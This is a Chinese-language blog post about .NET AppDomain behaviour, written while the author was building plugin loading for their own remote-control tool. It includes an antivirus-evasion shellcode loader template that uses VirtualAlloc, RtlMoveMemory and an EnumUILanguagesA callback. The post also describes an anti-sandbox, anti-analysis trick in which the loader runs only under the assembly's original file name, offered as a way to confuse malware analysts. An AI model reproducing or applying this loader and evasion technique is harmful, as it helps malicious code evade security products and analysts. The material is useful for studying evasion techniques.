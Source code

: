 ```yaml
---
title: 一种利用Appdomain特性实现隐蔽的反沙箱分析
date: 2023-2-17 09:29:19
categories: 
- .Net
tags:
- .Net
- Appdomain
- Anti-VM
---
```

这次是标题党了，主要还是记录一下自己在使用Appdomain中遇到的一点小坑

# 前情提要

我一直很喜欢使用C#制作一些工具，或者制作一些技术的poc，在测试杀软对行为的拦截时为了避免频繁文件落地，都是使用对一个C#远控添加插件的方式测试的。

最常用的插件加载方式就是Assembly.Load了，使用过的都会发现这种方式可以加载不能卸载，用Procexp之类的软件可以很方便的查看进程内的Assembly。虽然临时测试并不是太需要保证自身进程干净，但是还是想要解决一下这个问题。

# 解决过程

在未提供接口卸载Assembly的情况下，最合适的方法是在新Appdomain中加载Assembly，并在使用后直接卸载Appdomain。

```csharp
var appDomain = AppDomain.CreateDomain("Demo");
var asm = appDomain.LoadFrom("test.dll");
asm.EntryPoint.Invoke(null, null);

AppDomain.Unload(appDomain);
```

但是如果第二行改为使用Load函数，从内存中加载，就有可能发现FileNotFoundException的问题，这里就为后面的坑做下了铺垫，但是我没有在这里注意到这个问题。通过谷歌搜索发现了CreateInstanceAndUnwrap这个好东西，同时也想起来了之前收藏的文章[https://rastamouse.me/net-reflection-and-disposable-appdomains/](https://rastamouse.me/net-reflection-and-disposable-appdomains/)，所以参考文中实例，很快我就完成了自己远控中的加载执行的部分，并且完美通过调试

```csharp
public class ShadowRunner : MarshalByRefObject
{
    public string[] LoadAssembly(byte[] assembly, string[] args, string sMethod)
    {
        var asm = Assembly.Load(assembly);
        var test = new string[] { };
        foreach (var type in asm.GetTypes())
            foreach (var method in type.GetMethods())
                if (method.Name.ToLower().Equals(sMethod.ToLower()))
                    test = (string[])method.Invoke(null, new object[] { args });
        return test;
    }
}

public static void loadAppDomainModule(string sMethod, string sAppDomain, byte[] bMod)
{
    var oDomain = AppDomain.CreateDomain(sAppDomain, null, null, null, false);
    var runner = (ShadowRunner)oDomain.CreateInstanceAndUnwrap(typeof(ShadowRunner).Assembly.FullName,
        typeof(ShadowRunner).FullName);
    var result = runner.LoadAssembly(bMod, new[] { "test" }, sMethod);
    return;
}
```

但是在实际使用过程中，把远控的client端转为shellcode，并随便套了一个加载器，之后就出现了问题，当时我就按照习惯把问题归为.Net历史遗留问题或者donut的实现问题，有可能是自己加载的CLR环境出现了问题，前后调试对比了很久也没有找出问题所在。

还是后面想起来错误是FileNotFoundException，就看错误提示感觉很不合理，进而用Procmon跟了下，发现Appdomain加载程序集居然有一套类似dll搜索的搜索顺序，会在自身目录以及默认目录搜索文件，未发现文件就报错。

这个问题的本质是Appdomain在CreateInstanceAndUnwrap中会根据程序集名称去磁盘上加载ShadowRunner所在程序集，从而产生一系列的问题，类似的情况在Appdomain的其他函数中也可以复现。

可以说是完全断了这种操作的Assembly去做一些转化再免杀的方案，如果真想搞的话，可以hook一下自己进程的NtCreateFile等函数，让进程认为有这个文件嘛

# 附带的利用

坏消息是，动态加载卸载这个东西很难去做武器化了，好消息是，我们知道了Appdomain中找不到文件名对应的文件就不加载的特性（大概注意到这个问题的人不太多，毕竟按照写Assembly.Load的思路，不会遇到这个问题）

所以就制作了一个简单的免杀模板（此处只展示加载部分）

```csharp
using System;
using System.Runtime.InteropServices;

namespace test
{
    class Program
    {
        [DllImport("ntdll.dll")]
        private static extern bool RtlMoveMemory(IntPtr addr, byte[] pay, uint size);
        [DllImport("kernelbase.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, int flAllocationType, int flProtect);
        [DllImport("kernel32.dll")]
        private static extern bool EnumUILanguagesA(IntPtr lpUILanguageEnumProc, uint dwFlags, IntPtr lParam);

        public static void Main(string[] args)
        {
            AppDomain tempDomain = AppDomain.CreateDomain("Temp");
            tempDomain.DoCallBack(Load);
        }

        private static void Load()
        {
            byte[] shellcode = { ...};
            IntPtr p = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x00001000, 0x0040);
            RtlMoveMemory(p, shellcode, (uint)shellcode.Length);
            EnumUILanguagesA(p, 0, IntPtr.Zero);
        }
    }
}
```

编译后如果文件名与编译时设置的程序集名称不同的话，就无法执行，但是文件中不包含任何判断文件名的部分。

# 总结

Appdomain加载卸载Assembly的思路我目前还没能完善，有待解决，但是顺路发现了一个比较隐蔽的小技巧，对于样本分析上会有一定的干扰作用，可以配合其他方法使用。（如故意添加一个判断自身文件名是否符合的函数，在分析人员用dnspy修改删除后发现还是文件名不符合执行不了一定会一脸懵逼，哈哈）
